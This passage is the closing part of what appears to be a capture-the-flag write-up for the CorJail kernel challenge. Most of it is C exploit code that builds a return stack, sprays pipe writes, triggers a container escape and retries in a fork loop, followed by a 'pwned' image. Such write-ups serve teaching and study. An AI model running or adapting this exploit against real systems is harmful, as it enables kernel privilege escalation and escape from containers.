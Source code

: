 ```c
    ptr[index++] = user_sp|8;
    ptr[index++] = user_ss;
    for(int i = 0 ; i < 0x40; i++)
        write(shuifeng[1],T,0x1000); 

    debug();
    size_t res = write(victim[idx][1],buf+0x28,8);
    success("🚀 Escaping...");
    tainRegs(KASLR,(size_t *)((TARGET_ADDR>>12<<12)+0x20000+0x100));
    for(int i = 0 ; i < ct ; i++)
        close(fds[i]);
    exit(0);
}
int  main(){
    while(1) {
		if(!fork()) 
            attempt();
		else 
			wait(NULL);
	}
}

```

![Exploited](/Figures/CorJail/pwned.png)

# 🧙🏽‍♂️ Epilogue
